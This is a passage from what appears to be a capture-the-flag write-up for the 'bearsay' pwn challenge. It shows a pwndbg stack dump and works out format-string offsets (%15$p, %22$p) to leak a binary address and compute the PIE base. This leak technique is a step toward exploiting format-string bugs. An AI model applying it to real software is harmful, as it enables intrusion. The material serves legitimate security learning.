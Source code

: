 ```
03:0018│-028 0x7fffffffb9c8 ◂— 0x7f2af7c7f42a
04:0020│-020 0x7fffffffb9d0 ◂— 0x0
05:0028│-018 0x7fffffffb9d8 ◂— 0xffffda40
06:0030│-010 0x7fffffffb9e0 ◂— 0x8ffffdb58
07:0038│-008 0x7fffffffb9e8 ◂— 0x61ac0e76eaaf3100
08:0040│ rbp 0x7fffffffb9f0 —▸ 0x7fffffffda40 ◂— 0x1
09:0048│+008 0x7fffffffb9f8 —▸ 0x555555555678 (main+702) ◂— mov eax, dword ptr [rbp - 0x202c]
0a:0050│+010 0x7fffffffba00 —▸ 0x7fffffffdb58 —▸ 0x7fffffffdedc ◂— '/home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal'
0b:0058│+018 0x7fffffffba08 ◂— 0x100000000
0c:0060│+020 0x7fffffffba10 ◂— 0x800000000
0d:0068│+028 0x7fffffffba18 —▸ 0x7fffffffba38 ◂— 0x0
0e:0070│+030 0x7fffffffba20 ◂— 0x0
0f:0078│+038 0x7fffffffba28 ◂— 0x0
10:0080│ rdi 0x7fffffffba30 ◂— 'AAAABBBB'
11:0088│+048 0x7fffffffba38 ◂— 0x0
... ↓        32 skipped
```

We notice 2 important things from this stack dump:

1. We have a binary address at RBP+0x8 : `0x7fffffffb9f8 —▸ 0x555555555678`

2. Our input is at RBP+0x40 : `0x7fffffffba30 ◂— 'AAAABBBB'`

We can easily calculate at which indexes can we find these by:

`index = ((<stack_address> - RSP)/8)+6`

In this case:

```
pwndbg> p/d ((0x7fffffffb9f8-0x7fffffffb9b0)/8)+6
$1 = 15
pwndbg> p/d ((0x7fffffffba30-0x7fffffffb9b0)/8)+6
$2 = 22
```

- we can get binary leak via: `%15$p`

- and get the start of our input via: `%22$p`

Also by doing this:

```
pwndbg> vmmap 0x555555555678
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555554000     0x555555555000 r--p     1000      0 /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal
►   0x555555555000     0x555555556000 r-xp     1000   1000 /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal +0x678
    0x555555556000     0x555555557000 r--p     1000   2000 /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal
pwndbg> p/x 0x555555555678-0x555555554000
$3 = 0x1678
```
